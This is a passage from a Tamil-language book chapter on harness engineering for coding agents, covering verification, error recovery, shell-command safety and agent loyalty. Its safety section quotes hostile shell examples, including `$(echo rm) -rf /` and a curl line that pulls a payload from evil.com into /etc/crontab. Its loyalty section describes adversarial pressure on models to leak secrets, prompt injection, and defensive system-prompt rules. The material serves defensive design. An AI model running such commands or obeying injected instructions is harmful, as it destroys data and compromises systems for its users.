அனைத்து tests-உம் கடந்து சென்றாலும், Agent-ன் வேலை முடிந்துவிடவில்லை. அடுத்த கட்டம் code review: Agent தான் உருவாக்கிய code-ஐ விமர்சன ரீதியாக ஆய்வு செய்கிறது—அது readable-ஆக உள்ளதா, போதுமான comments உள்ளனவா; potential performance issues அல்லது security vulnerabilities உள்ளனவா; அது project-ன் code style மற்றும் best practices-ஐப் பின்பற்றுகிறதா. இந்த self-review, code-ஐப் படிப்பதன் மூலமோ, lint tools-ஐ இயக்குவதன் மூலமோ, அல்லது dedicated code review sub-agent-ஐ அழைப்பதன் மூலமோ அடையப்படலாம். Review-ல் சிக்கல்கள் கண்டறியப்பட்டால், Agent user-க்கு குறைபாடுள்ள code-ஐ வழங்காமல், அவற்றை மேம்படுத்த modification phase-க்குத் திரும்ப வேண்டும்.

**Documentation Synchronization மற்றும் Delivery.**

Code changes-ல் architectural-level modifications இருந்தால்—எடுத்துக்காட்டாக, ஒரு புதிய module-ஐ அறிமுகப்படுத்துதல், modules-க்கு இடையேயான dependencies-ஐ மாற்றுதல், அல்லது core abstractions-ன் semantics-ஐ மாற்றுதல்—Agent அதற்கேற்ப architecture documentation-ஐ புதுப்பிக்க வேண்டும். Outdated documentation, documentation இல்லாததை விட மோசமானது, ஏனெனில் அது எதிர்கால developers-ஐ தவறாக வழிநடத்துகிறது. ஒவ்வொரு முக்கிய மாற்றத்திற்குப் பிறகும் தானாகவே documentation-ஐ புதுப்பிப்பதன் மூலம், Agent project-ன் knowledge base-ன் ஒருமைப்பாடு மற்றும் சமகாலத்தன்மையைப் பேண உதவுகிறது.

இந்த workflow, software engineering-ன் மையக் கொள்கைகளை உள்ளடக்கியது: திட்டமிடல் செயலை முந்துகிறது, சரிபார்ப்பு முழுவதும் இயங்குகிறது, மேலும் documentation code-உடன் சேர்ந்து உருவாகிறது.
### Coding Agents-க்கான Harness Engineering நடைமுறையில்

அத்தியாயம் 1-ல் Harness Engineering என்ற கருத்துருவும் **Agent = Model + Harness** என்ற சூத்திரமும் அறிமுகப்படுத்தப்பட்டன. இங்கு Harness-ஆனது மைய சூத்திரத்தின் context மற்றும் tools-ஐயும், constraints, verification, மற்றும் correction வழிமுறைகளையும் உள்ளடக்கியது—இந்த ஐந்து கூறுகளும் சேர்ந்து அத்தியாயம் 1-ல் வரையறுக்கப்பட்ட Harness-ஐ உருவாக்குகின்றன. Coding Agents என்பது Harness Engineering-இலிருந்து அதிகம் பயனடையும் துறையாக இருக்கலாம்—குறியீடு எழுதுதல் என்பது மிகவும் **verifiable** ஆன Agent பணியாகும், மேலும் constraints, verification, மற்றும் correction-க்கான தற்போதைய உள்கட்டமைப்பும் உள்ளது. இந்தப் பகுதி Coding Agent காட்சியில் குறிப்பிட்ட நடைமுறைகளை மையமாகக் கொண்டுள்ளது.

ஒரு அமைப்பு நிலையாக இயங்குகிறதா என்பது பெரும்பாலும் model-ன் சக்தியை விட, Agent-ஐச் சுற்றி கட்டப்பட்ட உள்கட்டமைப்பின் வலிமையைப் பொறுத்தது. அத்தியாயம் 1 Harness-ஐ இரண்டு அடுக்குகளாகப் பிரிக்கிறது—**Context மற்றும் Tools** (Agent செயல்பட உதவுபவை) மற்றும் **Constraints, Verification, மற்றும் Correction** (Agent தவறு செய்வதைத் தடுப்பவை). Coding Agent காட்சியில், இவை குறிப்பிட்ட பொறியியல் கூறுகளாக மாறுகின்றன:

- **Acceptance Baseline**: "முடிந்தது" என்றால் என்ன—test suites, CI pipeline (Continuous Integration pipeline, குறியீடு சமர்ப்பிக்கப்பட்ட பின் தானாக இயங்கும் சோதனைகளின் தொடர்), code review தரநிலைகள்
- **Execution Boundary**: Agent எதைத் தொடலாம் மற்றும் தொடக்கூடாது—module எல்லைகள், dependency விதிகள், அனுமதி கட்டுப்பாடுகள்
- **Feedback Signals**: தானியங்கி சரியான தன்மை மதிப்பீடுகள்—Linter (குறியீடு பாணி சரிபார்ப்புக் கருவி, வடிவமைப்புப் பிழைகள் மற்றும் சாத்தியமான சிக்கல்களைத் தானாகக் கண்டறியும்) வெளியீடு, test முடிவுகள், type checking பிழைகள்
- **Rollback Mechanism**: ஏதேனும் தவறு நடந்தால் எப்படி மீள்வது—Git version control, sandbox தனிமைப்படுத்தல், snapshot rollback

**Coding Agents Harness Engineering-க்கு ஏன் குறிப்பாகப் பொருத்தமானவை.**

பணிகளை இரண்டு பரிமாணங்களைப் பயன்படுத்தி நான்கு நிலைகளாக வகைப்படுத்தலாம்: பணி தெளிவு மற்றும் verification தானியக்கத்தின் அளவு. தெளிவான இலக்குகளும் தானாகவே சரிபார்க்கக்கூடிய முடிவுகளும் கொண்ட பணிகள் Agents செயல்பட சிறந்த பகுதியாகும்; இலக்கு தெளிவாக இருந்தாலும் verification-க்கு மனித மேற்பார்வை தேவைப்படும்போது, throughput-ன் உச்சவரம்பு மனித மதிப்பாய்வு வேகமாகும்; தானியங்கி feedback இருந்தாலும் தெளிவற்ற இலக்கு இருந்தால், அமைப்பு திறமையாக தவறான திசையில் இயங்கும்; இரண்டும் இல்லாதபோது, Agent பெரும்பாலும் பயனற்றதாகிவிடும். அட்டவணை 5-1 இந்த நான்கு நிலைகளைக் காட்டுகிறது. Harness-ன் நோக்கம், முடிந்தவரை பல பணிகளை "தெளிவான இலக்கு + தானியங்கி verification" என்ற நாற்கூறுக்குத் தள்ளுவதாகும்.

அட்டவணை 5-1 பணி தெளிவு மற்றும் Verification தானியக்கத்தின் நான்கு நாற்கூறுகள்

| | முடிவுகளை தானாகவே சரிபார்க்க முடியும் | முடிவுகளை கைமுறையாக சரிபார்க்க வேண்டும் |
|---|---|---|
| **தெளிவான இலக்கு** | Sweet spot: test cases-உடன் bugs-ஐ சரிசெய்தல் | Throughput-வரையறுக்கப்பட்டது: code refactoring-க்கு கைமுறை மதிப்பாய்வு தேவை |
| **தெளிவற்ற இலக்கு** | திறமையாக திசைதவறல்: linter-உடன் "code quality"-ஐ மேம்படுத்துதல் | தொடங்க கடினம்: "UI-ஐ நன்றாகக் காட்டு" |

குறியீடு எழுதுதல் இயற்கையாகவே இந்த நாற்கூறின் மையத்தில் அமைகிறது—சோதனைத் தொகுப்புகள் தெளிவான ஏற்பு அளவுகோல்களை வழங்குகின்றன, linter மற்றும் type checkers உடனடி தானியங்கி சரிபார்ப்பை வழங்குகின்றன, மேலும் Git சரியான பதிப்புக் கட்டுப்பாடு மற்றும் மீளமைப்புத் திறன்களை வழங்குகிறது. இதனால்தான் Coding Agents தற்போது அனைத்து agent வகைகளிலும் மிகவும் முதிர்ச்சியடைந்தவையாக உள்ளன: காரணம் code generation models மிகவும் சக்திவாய்ந்தவை என்பதல்ல, மாறாக பல தசாப்தங்களின் software engineering உள்கட்டமைப்பு இயற்கையாகவே ஒரு வலுவான Harness ஐ உருவாக்குகிறது.

**Industry Practice.**

Harness பயிற்சியின் மூன்று வழக்கு ஆய்வுகள் மேற்கண்ட கொள்கைகளை உறுதிப்படுத்துகின்றன:

- **Large-scale code migration case** (ஒரு பெரிய tech நிறுவனத்தின் பொதுவில் பகிரப்பட்ட large-scale code migration பயிற்சியிலிருந்து): முக்கிய அம்சம் model இன் வலிமை அல்ல, மாறாக Harness மூன்று விஷயங்களைச் சரியாகச் செய்தது—அறிவு codebase க்குள்ளேயே இருக்க வேண்டும் (Agent பார்க்க முடியாதது இல்லை என்று பொருள்), கட்டுப்பாடுகள் documentation இல் எழுதப்படாமல் linters மற்றும் CI இல் குறியிடப்படுகின்றன, மேலும் சரிபார்ப்பு மற்றும் திருத்தம் முழுமையாக தானியக்கமாக்கப்பட்டுள்ளன.
- **LangChain**: Harness ஐ மேம்படுத்துவதன் மூலம் மட்டுமே (system prompts, tool middleware, self-verification loops) benchmark பணி செயல்திறனை கணிசமாக மேம்படுத்தியது. குறிப்பாக கவனிக்கத்தக்கது "Agent ஐப் பயன்படுத்தி தோல்வி பாதைகளை பகுப்பாய்வு செய்து Harness ஐ மேம்படுத்துதல்" என்ற முறையியல் ஆகும், இது Harness பொறியியலை அனுபவம் சார்ந்ததிலிருந்து தரவு சார்ந்ததாக மாற்றுகிறது.
- **Anthropic**: நீண்ட பணிகளை இரண்டு பாத்திரங்களாகப் பிரிக்கிறது—ஒரு initialization Agent பெரிய பணிகளை ஒரு பணி பட்டியலாக உடைக்கிறது, மற்றும் ஒரு execution Agent படிப்படியாக முன்னேறுகிறது, இடைநிலை முடிவுகளை (முடிக்கப்பட்ட code files, புதுப்பிக்கப்பட்ட பணி பட்டியல்கள் போன்றவை) அடுத்த சுற்றுக்குத் தொடர்ந்து பயன்படுத்த விட்டுச் செல்கிறது. இந்த பணிப்பிரிவு நீண்ட நேரம் இயங்கும் Agents "ஒரே நேரத்தில் அதிகமாகச் செய்ய முயற்சிப்பது" அல்லது "முன்கூட்டியே முடிந்துவிட்டதாகக் கூறுவது" போன்ற பிரச்சினைகளைத் தீர்க்கிறது.

**Coding Agent இலிருந்து General Harness Design Principles க்கு.**

Coding Agents இன் Harness பயிற்சிகள் அனைத்து agent அமைப்புகளுக்கும் மாற்றத்தக்க வடிவமைப்புக் கொள்கைகளை வழங்குகின்றன:

1. **Constraints over guidance**: code மூலம் செயல்படுத்தக்கூடிய விதிகள் documentation இல் பரிந்துரைக்கப்படக்கூடாது. linter விதிகள், type constraints மற்றும் CI சோதனைகளின் மதிப்பு system prompts இல் உள்ள "தயவுசெய்து பின்பற்றவும்..." வழிகாட்டுதலை விட மிக அதிகம்—முந்தையது "செய்ய முடியாது" என்று பொருள், பிந்தையது வெறுமனே "எதிராக அறிவுறுத்தப்படுகிறது".
2. **Automate verification**: கைமுறை மதிப்பாய்வு அளவிட முடியாத ஒரு தடையாகும். சோதனைத் தொகுப்புகள், code தர சோதனைகள் மற்றும் நடத்தை கண்காணிப்பில் முதலீடு செய்வது, அதிக மனித முயற்சியைச் சேர்ப்பதை விட மிக அதிக வருமானத்தை அளிக்கிறது.
3. **Feedback should be as fast and structured as possible**: பிழை செய்தி எவ்வளவு விரிவாகவும், பிழை ஏற்பட்ட தருணத்திற்கு எவ்வளவு நெருக்கமாகவும் இருக்கிறதோ, அவ்வளவு அதிகமாக Agent இன் திருத்தத் திறன் இருக்கும். அத்தியாயம் 2 இலிருந்து Agent status bar நுட்பங்கள் (விரிவான பிழை செய்திகள், tool call கவுண்டர்கள்) இந்த கொள்கையை உள்ளடக்குகின்றன.
4. **Rollback must be reliable**: Agents ஒரு பாதுகாப்பு வலையில் இயங்கும்போது மட்டுமே தைரியமாக பரிசோதனை செய்ய முடியும். Git branches, sandbox சூழல்கள் மற்றும் snapshot வழிமுறைகள் எந்த பிழையும் மீளக்கூடியதாக இருப்பதை உறுதி செய்கின்றன.

**நம்பகத்தன்மை பொறியியல்.**

மேலே உள்ள கொள்கைகள் Claude Code போன்ற production-grade Agents-இல் உச்சத்திற்கு கொண்டு செல்லப்படுகின்றன. Chapter 1, context மற்றும் tools, constraints, verification, மற்றும் correction போன்ற பரிமாணங்களில் இருந்து Harness-இன் முக்கிய செயல்பாடுகளை கோடிட்டுக் காட்டியது; இந்த பகுதி Coding Agent சூழ்நிலையில் கவனம் செலுத்தி, நிஜ உலக பொறியியலில் இந்த செயல்பாடுகளை செயல்படுத்துவதன் சிக்கலை நிரூபிக்கிறது. Production-grade Agents முக்கியமாக மூன்று வகையான boundary சிக்கல்களை எதிர்கொள்கின்றன: **output interruption** (இடையில் model பிழைகள்), **connection stall** (நீண்ட நேரம் பதில் இல்லாமை), மற்றும் **internal state loops** (Agent மீண்டும் மீண்டும் செயல்பாடுகளில் சிக்கிக் கொள்கிறது). ஒவ்வொன்றுக்குமான எதிர் நடவடிக்கைகள் பின்வருமாறு விளக்கப்பட்டுள்ளன.

**Error Recovery: Multi-Level Recovery Strategies-இன் Engineering Implementation**. Chapter 1-இல் முன்மொழியப்பட்ட correction கொள்கை—recovery சாத்தியமில்லை என உறுதிப்படுத்தப்படும் வரை intermediate states-ஐ வெளிப்படுத்த வேண்டாம்—Coding Agents-இல் ஒரு குறிப்பிட்ட recovery gradient தேவைப்படுகிறது. Model output length limit-ஐ தாக்கும் உதாரணத்தை எடுத்துக் கொள்வோம் (இடையில் துண்டிக்கப்பட்டது): Level one, அமைதியாக capacity limit-ஐ அதிகரித்து மீண்டும் முயற்சிக்கவும்; Level two, message-இன் முடிவில் meta-instructions-ஐ இணைத்து, model breakpoint-இலிருந்து generation-ஐ தொடர விடவும்; Level three, அனைத்து தானியங்கி recovery முறைகளும் தீர்ந்த பின்னரே பிழையை user-க்கு வெளிப்படுத்தவும். இதேபோல், conversation structure அசாதாரணமாக இருக்கும்போது (எ.கா., tool call-க்கு இணைந்த result message இல்லை), system பிழையைப் புகாரளிப்பதற்குப் பதிலாக message pairing-ஐ தானாகவே சரிசெய்கிறது. குறிப்பிடத்தக்க வகையில், சில production-grade Agents production mode மற்றும் training data collection mode ஆகிய இரண்டையும் ஒரே நேரத்தில் இயக்குகின்றன, இவை வெவ்வேறு data quality தேவைகளைக் கொண்டுள்ளன: production mode-இல், விடுபட்ட messages-ஐ patch செய்ய placeholders பயன்படுத்தப்படலாம், ஆனால் training data collection-இன் கடுமையான mode-இல், repair மறுக்கப்படுகிறது—ஏனெனில் training data-வில் செயற்கை placeholders-ஐ செலுத்துவது model-ஐ மாசுபடுத்தும். "Production mode-இல் தளர்வானது, training mode-இல் கண்டிப்பானது" என்ற இந்த இரட்டைத் தரம், Harness மற்றும் model training-க்கு இடையேயான ஆழமான இணைப்பை பிரதிபலிக்கிறது.

**Streaming Connections-இன் Resilience**. Streaming APIs-இன் மிகவும் ஆபத்தான failure mode, connection drop அல்ல (இது உடனடியாக பிழையைப் புகாரளிக்கிறது), மாறாக silent stall ஆகும்—connection வெற்றிகரமாக நிறுவப்பட்டாலும் data flow நின்றுவிடும், இணைக்கப்பட்ட குழாயில் தண்ணீர் வராதது போல. SDK-இன் timeout mechanism ஆரம்ப connection-ஐ மட்டுமே உள்ளடக்கியது, streaming process-ஐ அல்ல. Production Agents-க்கு ஒரு சுயாதீனமான idle watchdog timer தேவைப்படுகிறது (system stuck-ஆக உள்ளதா என கண்டறியும் ஒரு mechanism—கடைசியாக output பெறப்பட்டதிலிருந்து ஒரு குறிப்பிட்ட நேரத்திற்கு மேல் புதிய output எதுவும் பெறப்படாவிட்டால், அது stall என தீர்மானித்து recovery-ஐ தூண்டுகிறது), கடைசியாக data பெறப்பட்ட நேரத்தை தொடர்ந்து கண்காணித்து, timeout-இல் hung stream-ஐ செயலிழக்கச் செய்து retry அல்லது fallback-ஐ தூண்டுகிறது. இது ஒரு பொதுமைப்படுத்தக்கூடிய கொள்கையாகும்: **ஒவ்வொரு நீண்ட கால connection-க்கும் ஒரு liveness signal தேவைப்படுகிறது, connection timeouts-ஐ மட்டுமே நம்பியிருக்கக்கூடாது**.

**Dead Loop Protection for Hooks**. ஒரு Agent-இன் trajectory ஏற்கனவே invalid state-இல் இருக்கும்போது (எ.கா., context overflow error), stop hooks (Agent முடிவடையும்போது தானாக இயங்கும் cleanup logic) தூண்டப்படக்கூடாது—இல்லையெனில், hook-ஆனது தோல்வியடைந்து புதிய hook-ஐத் தூண்டி, dominoes போன்று முடிவில்லா loop-ஐ உருவாக்கும். உதாரணமாக: Agent context overflow காரணமாக நின்றுவிடுகிறது → "முடிவில் தானாக code-ஐ commit செய்" hook-ஐத் தூண்டுகிறது → hook commit message-ஐ உருவாக்க LLM-ஐ அழைக்கிறது → context மீண்டும் overflow ஆகிறது → hook-ஐ மீண்டும் தூண்டுகிறது → முடிவில்லா loop. Production systems, recursive depth counter-ஐப் பயன்படுத்தி இத்தகைய loops-ஐக் கண்டறிந்து உடைக்கின்றன.

**Safety and Performance.**

இது முன்னர் விவாதிக்கப்பட்ட threat model-உடன் (மூன்று மரண கூறுகள்) ஒத்துப்போகிறது—இது "எந்த risks மிகவும் மரணமானவை" என்பதைப் பகுப்பாய்வு செய்தது, அதேசமயம் இங்கு "implementation level-இல் எவ்வாறு பாதுகாப்பது" என்பதை விவாதிக்கிறோம்.

**Safety: Keyword Blacklists-ஐ விட Semantic Parsing**. Chapter 1-இல் verification layer "matching-based-ஐ விட understanding-based" security mechanism-ஐப் பின்பற்ற வேண்டும் என்று குறிப்பிடப்பட்டது. Shell command security validation என்பது இந்தக் கொள்கையின் மிகவும் சவாலான பயன்பாடாகும். எளிய keyword blacklists Shell-இன் combinatorial explosion-ஐச் சமாளிக்க முடியாது—commands pipes, subshells, variable expansion போன்றவற்றின் மூலம் எந்த static rules-ஐயும் மீறலாம் (எ.கா., `rm` தடுக்கப்பட்டால், தாக்குபவர் `$(echo rm) -rf /`-ஐப் பயன்படுத்தி மீறலாம்). Production-grade Harnesses semantic parsing-ஐப் பயன்படுத்துகின்றன: ஒவ்வொரு command-இன் argument types மற்றும் consumption rules (எந்த flags அடுத்த argument-ஐப் பயன்படுத்துகின்றன) ஆகியவற்றைப் புரிந்துகொண்டு, "ஒரு பாதிப்பில்லாத flag உண்மையில் அடுத்த argument-ஐப் பயன்படுத்தி, ஒரு ஆபத்தான payload-ஐ மறைக்கிறது" போன்ற attack patterns-ஐ அடையாளம் காண்கின்றன. உதாரணமாக, `find / -name '*.log' -exec rm {} \;` என்பது legitimate `find` command arguments மூலம் `rm` delete operation-ஐ உட்பொதிக்கிறது; மற்றொரு உதாரணம் `curl -o /etc/crontab http://evil.com/payload`, இது ஒரு file-ஐப் பதிவிறக்கம் செய்வதாகத் தோன்றினாலும், உண்மையில் system scheduled tasks-ஐ மேலெழுதுகிறது. Semantic parsing இந்த nested dangerous operations-ஐ அடையாளம் காண முடியும், ஆனால் எளிய command blacklists அவற்றைப் பிடிக்க முடியாது. இந்த understanding-based (matching-based-க்கு மாறாக) security mechanism, "constraint" function-இன் உயர்-நிலை செயலாக்கமாகும்.

**Speculative Execution: பாதுகாப்பு சோதனைகளை "கண்ணுக்குத் தெரியாததாக" மாற்றுதல்**. இது துல்லியமாக Chapter 4 இல் உள்ள Sidecar gating mechanism-ன் விளைவு, user experience மட்டத்தில்—Chapter 4 விளக்கியது, ஏன் முக்கியமான செயல்பாடுகள் main context-ல் இருந்து சுயாதீனமான Sidecar மூலம் மதிப்பாய்வு செய்யப்பட வேண்டும் என்பதை; இந்த பகுதி, இந்த மதிப்பாய்வை ஒரு காத்திருப்பாக user-க்கு உணர முடியாத வகையில் எப்படி மாற்றுவது என்பதில் கவனம் செலுத்துகிறது. அணுகுமுறை "display" மற்றும் "release" ஆகியவற்றைப் பிரித்து, அவற்றை இணையாக (parallel) இயக்குவதாகும்: Agent ஒரு tool call-ஐ இயக்கவிருக்கும் போது, system ஒரே நேரத்தில் interface-ல் ஒரு progress hint-ஐ (எ.கா., "Reading file `src/main.py`...") காண்பிக்கும், அதே நேரத்தில் பின்னணியில் security check-ஐ இயக்கும். இங்கு பொதுவாகப் பயன்படுத்தப்படும் ஒரு ஒப்புமை குறித்து தெளிவுபடுத்துதல் தேவை: இது CPU speculative execution-ல் இருந்து வேறுபட்டது—CPU தவறாக யூகித்தால், அது கணக்கிடப்பட்ட முடிவுகளை நிராகரித்து state-ஐ மீட்டமைக்க வேண்டும்; இங்கு, முன்கூட்டிய செயல் என்பது வெறும் **side-effect-free UI hint** மட்டுமே, இது எந்த உண்மையான state-ஐயும் மாற்றாது. Check தோல்வியடைந்தால், எந்த rollback-ம் தேவையில்லை; hint வெறுமனே "waiting for confirmation" என்று மாற்றப்படும். பெரும்பாலான சந்தர்ப்பங்களில், user கவனிப்பதற்கு முன்பே security check முடிந்துவிடும், எனவே user கூடுதல் latency-ஐ உணர மாட்டார்; விரைவான முடிவு சாத்தியமில்லாதபோது மட்டுமே system உண்மையில் இடைநிறுத்தப்பட்டு உறுதிப்படுத்தலுக்காக காத்திருக்கும். இதுவே Harness வடிவமைப்பின் உயர்ந்த நிலை: user experience-ஐ தியாகம் செய்யாமல் பாதுகாப்பு.

**Tool Orchestration: Fault Boundary Control**. முதிர்ச்சியடைந்த Coding Agents இணையான tool calls-ஐ ஆதரிக்கின்றன. Harness கண்ணோட்டத்தில் தனித்துவமான பிரச்சனை **faults எவ்வாறு பரவுகின்றன** என்பதாகும்: ஒரு tool தோல்வியடையும் போது, எந்த calls நிறுத்தப்பட வேண்டும், எந்த calls தொடர வேண்டும்? கொள்கை என்னவென்றால், faults ஒரே batch-ல் உள்ள இணையான calls-க்குள் மட்டுமே பரவுகின்றன, parent operation வரை அல்ல—உதாரணமாக, மூன்று கோப்புகளை ஒரே நேரத்தில் படிக்கும்போது, ஒன்று கிடைக்கவில்லை என்றால், அந்த தோல்வி மட்டுமே புகாரளிக்கப்பட வேண்டும், மற்ற இரண்டையும் ரத்து செய்யக்கூடாது, மேலும் முழு பணியையும் நிச்சயமாக நிறுத்தக்கூடாது. இந்த நுண்ணிய fault boundary control, "ஒரு கட்டளை தோல்வி முழு பணியையும் நிறுத்துகிறது" என்ற உடையக்கூடிய முறையைத் தவிர்க்கிறது. இணையான calls, streaming parsing, மற்றும் cascading aborts ஆகியவற்றிற்கான குறிப்பிட்ட வழிமுறைகள் அடுத்த பகுதியான "Implementation Tips"-ல் விரிவாக விளக்கப்பட்டுள்ளன.

இந்த patterns-ன் பொதுவான பண்பு: **அவை "model திறன் போதுமானதாக இல்லை" என்ற பிரச்சனையை அல்ல, மாறாக "boundary conditions-ன் கீழ் system-ன் robustness" என்ற பிரச்சனையை தீர்க்கின்றன.** Models மேலும் மேலும் சக்திவாய்ந்ததாக மாறலாம், ஆனால் networks துண்டிக்கப்படலாம், processes முடங்கலாம், மற்றும் users எதிர்பாராத செயல்களைச் செய்யலாம்—இங்குதான் Harness-ன் மதிப்பு உள்ளது.

**Agent யாருக்கு சேவை செய்கிறது: Multi-Party Delegation-ன் கீழ் Loyalty.**

(இந்தப் பகுதி பொது agent பாதுகாப்புத் தலைப்பான—principal loyalty—ஐ Coding Agent சூழ்நிலைக்கு நீட்டிப்பதாகும். இது இந்தப் பகுதியின் முக்கிய நூலான நம்பகத்தன்மை பொறியியலுடன் ஓரளவு தளர்வாக இணைக்கப்பட்டுள்ளது; வாசகர்கள் தேவைக்கேற்ப இதைப் படிக்கலாம்.) முன்னர் விவாதிக்கப்பட்ட பாதுகாப்பு வழிமுறைகள் "கட்டளைகள் தீங்கிழைக்கும் விதத்தில் செயல்படுத்தப்படுவதை" தடுக்கின்றன. மற்றொரு, மிகவும் நுட்பமான பாதுகாப்புப் பிரச்சினை உள்ளது: **Agent உண்மையில் யாருடைய பக்கம் உள்ளது**. இன்றைய models ஒரு எளிய இயல்புநிலைக் கொள்கையுடன் பயிற்றுவிக்கப்படுகின்றன: "என்னுடன் பேசுபவர் யாராக இருந்தாலும், அவருக்கு என்னால் முடிந்தவரை உதவ முயற்சிப்பேன்." ஆனால் நிஜ உலக Agents பெரும்பாலும் **multi-party delegation** சூழ்நிலைகளில் தங்களைக் காண்கின்றன: அவை தங்கள் principal சார்பாக செயல்படும் அதே நேரத்தில், முரண்பட்ட நலன்களைக் கொண்ட மூன்றாம் தரப்பினருடன் கையாளுகின்றன. உங்களுக்காக விலை பேசும் ஒரு Agent, ஒரு நிறுவனத்திற்காக விண்ணப்பங்களை முன்-திரையிடும் ஒரு Agent, வாடிக்கையாளர் சேவையில் உங்களைப் பிரதிநிதித்துவப்படுத்தும் ஒரு Agent—எதிர் பக்கத்தில் இருப்பவர் "உதவி தேவைப்படும் பயனர்" அல்ல, மாறாக ஒரு **பேச்சுவார்த்தை எதிரி**. இதுபோன்ற சந்தர்ப்பங்களில், "பேசுபவர் யாராக இருந்தாலும் உதவு" என்பது ஒரு ஆபத்தான இயல்புநிலை அமைப்பாகும்—எதிரி பேசினால் மட்டுமே போதும், Agent உங்களுக்கு எதிராகத் திரும்பக்கூடும்.

முன்னணி models ஐ இந்தச் சூழ்நிலையில் வைத்து சோதிப்பது ஒரு தெளிவான **loyalty spectrum** ஐ வெளிப்படுத்துகிறது, இரு முனைகளும் தோல்வியடைகின்றன[^ch5-1]. ஒரு முனை **மிகவும் நேர்மையானது**: principal இன் தனிப்பட்ட தகவலை (எ.கா., "எங்கள் குறைந்தபட்ச விலை 12,000") எதிரிக்கு நேரடியாக வெளிப்படுத்துவது, அழுத்தம் கொடுக்கும்போது "இந்தத் தகவல் உள்ளது" என ஒப்புக்கொள்வது; சில சுற்றுகள் மீண்டும் மீண்டும் அழுத்தம் கொடுத்த பிறகு சரணடைவது. மறு முனை **மிகவும் சந்தேகமானது**: தகவல் கசிவதைத் தவிர்க்க, principal இன் நியாயமான கோரிக்கைகளைக் கூட மறுத்து, எதுவும் செய்யாமல், பணியை முடிக்கத் தவறுவது. ஒரு டஜன் முன்னணி models இந்தப் பிரச்சினையில் தெளிவான துருவமுனைப்பைக் காட்டுகின்றன—சில "காட்டிக்கொடுப்பு விகிதத்தை" 20% க்குக் கீழே வைத்திருக்க முடிகிறது, மற்றவை ஆபத்தான அளவுக்கு அதிக விகிதங்களைக் கொண்டுள்ளன. உண்மையான சிரமம் என்னவென்றால், இந்த இரண்டு தோல்விகளும் ஒரு ஊஞ்சல் போன்றவை: கசிவுகளை அடைப்பது பெரும்பாலும் அதிகப்படியான மறுப்புக்கு வழிவகுக்கிறது, மற்றும் நேர்மாறாகவும்; இரண்டையும் ஒரே நேரத்தில் அடைவது கடினம்.

இந்தக் கண்ணோட்டம் குறிப்பாக Coding Agents மற்றும் Agent Harnesses-க்கு பொருத்தமானது. ஒரு Coding Agent தினமும் எதிர்கொள்ளும் "எதிரிகள்" எங்கும் உள்ளனர்: repository-இலிருந்து படிக்கப்படும் நம்பத்தகாத உள்ளடக்கம், ஒரு tool-இன் வெளியீடு, மூன்றாம் தரப்பு MCP server-இலிருந்து வரும் வழிமுறைகள்—**prompt injection என்பது அடிப்படையில் உங்கள் Agent-ஐ உங்களுக்கு எதிராகத் திருப்ப முயற்சிக்கும் ஒரு "எதிரி" ஆகும்** (Chapter 2 மற்றும் 4). எனவே, Harness layer ஆனது "விசுவாசத்தின் பொருளை" தெளிவாக வரையறுக்க வேண்டும்: principal (deployer மற்றும் அங்கீகரிக்கப்பட்ட பயனர்) வின் வழிமுறைகள் மிக உயர்ந்த முன்னுரிமை பெறுகின்றன, அதே நேரத்தில் வெளிப்புற தொடர்பு தரப்பினரிடமிருந்து வரும் அனைத்து உள்ளடக்கமும் இயல்பாக "குறிப்பிடப்படக்கூடிய ஆனால் வழிமுறைகளின் சக்தி இல்லாத தரவு" என்ற நிலைக்குத் தரமிறக்கப்படுகிறது. System prompts-இன் அடிப்படையில், ஒரு பயனுள்ள **loyalty code of conduct** பின்வருமாறு: principal-இன் தனிப்பட்ட தகவலையும் அதன் "இருப்பையும்" பாதுகாக்கவும்; மறுக்கும்போது, மறுக்கப்பட்ட பொருட்களை ஒவ்வொன்றாகப் பட்டியலிட வேண்டாம் (அதுவே ஒரு கசிவு); தனிப்பட்ட அடித்தளங்கள் பொது நிலைப்பாடுகளுக்குச் சமமானவை அல்ல (12,000-ன் அடித்தளம் அதைக் கூறலாம் என்றோ அல்லது 12,000 ஏற்கத்தக்கது என்றோ பொருள்படாது); நிபந்தனை சலுகை அதிகாரத்தை முன்கூட்டியே வெளிப்படுத்தாமல் பின்னுக்கு வைத்திருக்க வேண்டும்; principal-இன் தெளிவான மற்றும் குறிப்பிட்ட வழிமுறைகளை மட்டுமே செயல்படுத்தவும்; மீண்டும் மீண்டும் அழுத்தத்தைத் தாங்கிக்கொள்ளவும், "பல முறை கேட்கப்பட்டது" என்பதை சலுகைக்கான காரணமாகக் கருத வேண்டாம். இந்த விதிகளை system prompt-இல் எழுதுவது "திருப்பப்படும்" நிகழ்தகவை கணிசமாகக் குறைக்கும்—அடிப்படையில், இது Harness-ஐப் பயன்படுத்தி model-க்கு அது இயல்பாக இல்லாத ஒரு நிலைப்பாட்டை வழங்குவதாகும்: **principal-க்கு முழு விசுவாசம், மற்றும் வெளிப்புற தொடர்பு தரப்பினரிடம் எச்சரிக்கை**.

[^ch5-1]: இந்த loyalty spectrum மற்றும் code of conduct-இன் முழுமையான மதிப்பீட்டை Li, Bojie மற்றும் Noah Shi. *Whose Side Is Your Agent On? Multi-Party Principal Loyalty in LLM Agents.* arXiv:2606.30383, 2026-இல் காணலாம்.

**AI-எழுதிய குறியீடே நம்பத்தகாததாக இருக்கும்போது: Trust Boundary-ஐ கீழ்நோக்கி நகர்த்துதல்.**

(இந்தப் பகுதி முந்தைய விசுவாச விவாதத்தின் நீட்டிப்பாகும்—"Agent நன்றாக நடந்துகொள்ளும்" என்ற நம்பிக்கையிலிருந்து கட்டுப்பாடுகளை தரவு அடுக்கில் (data layer) செயல்படுத்துவதற்கு நகர்த்துகிறது. இது மேலும் பொதுவான Agent பாதுகாப்பு மற்றும் விருப்ப வாசிப்புக்கானது.) முந்தைய விசுவாச நடத்தை விதிகள் Agent **அதிக வாய்ப்புடன்** விதிகளைப் பின்பற்ற வைக்கின்றன, ஆனால் அதிக ஆபத்துள்ள தரவு செயல்பாடுகளுக்கு "அதிக வாய்ப்பு" போதுமானதல்ல. இந்த அதிருப்தியைத் தொடர்ந்து, மேலும் தீவிரமான நிலைப்பாட்டிற்கு வழிவகுக்கிறது[^ch5-2]. கடந்த முப்பது ஆண்டுகளாக, மென்பொருளின் ஒருமைப்பாடு எல்லை **application layer**-ல் இருந்தது—யார் செயல்பட முடியும், எந்த மதிப்புகள் சட்டப்பூர்வமானவை, எந்த நிலை மாற்றங்கள் அனுமதிக்கப்படுகின்றன என்பதை handler code தீர்மானித்தது, database இந்த code எழுதிய தரவை நிபந்தனையின்றி நம்பியது. இந்த ஏற்பாட்டின் அடிப்படை என்னவென்றால், எல்லையில் உள்ள code 